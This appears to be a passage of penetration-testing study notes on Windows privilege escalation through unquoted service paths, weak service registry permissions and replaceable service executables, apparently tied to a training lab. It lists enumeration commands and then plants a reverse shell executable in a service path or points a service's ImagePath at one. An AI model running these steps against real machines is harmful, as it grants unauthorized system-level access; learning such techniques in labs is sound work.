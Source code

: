 ### **8.2) Unquoted Service Path**
Executables in Windows can be run without using their extension (e.g., `whoami.exe` can be run by just typing `whoami`). Some executables take arguments, separated by spaces, e.g., `someprog.exe arg1 arg2 arg3...`. This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: `C:\Program Files\Some Dir\SomeProgram.exe`

To us, this obviously runs `SomeProgram.exe`. To Windows, `C:\Program` could be the executable, with two arguments: `Files\Some` and `Dir\SomeProgram.exe`

If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

### Privilege Escalation
1) Run winPEAS to check for service misconfigurations:
	1) `.\winPEASany.exe quiet servicesinfo`
Manual (goated):
```bat
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2) Note that the **unquotedsvc** service has an unquoted path that also contains spaces: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
3) Confirm this: `sc qc unquotedsvc`
4) Use `accesschk.exe` or `icacls` to check for write permissions:
	1) `icacls "C:\"`
	2) `icacls "C:\Program Files\"`
	3) `icacls "C:\Program Files\Unquoted Path Service\"`
5) Copy the reverse shell executable and rename it appropriately:
	1) `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
6) Start listener, then start the service to trigger the exploit:
	2) `net start unquotedsvc`

### **8.3) Weak Registry Permissions**
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly.

### Privilege Escalation
1) Run winPEAS to check for service misconfigurations:
	1) `.\winPEASany.exe quiet servicesinfo`
2) Note that the `regsvc` service has a weak registry entry. We can confirm this with PowerShell:
	2) `Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List`
	3) Alternatively `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
3) Overwrite the `ImagePath` registry key to point to our reverse shell executable:
	1) `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
4) Start a listener, then start the service to trigger the exploit:
	2) `net start regsvc`

### **8.4) Insecure Services Executable**
If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable.
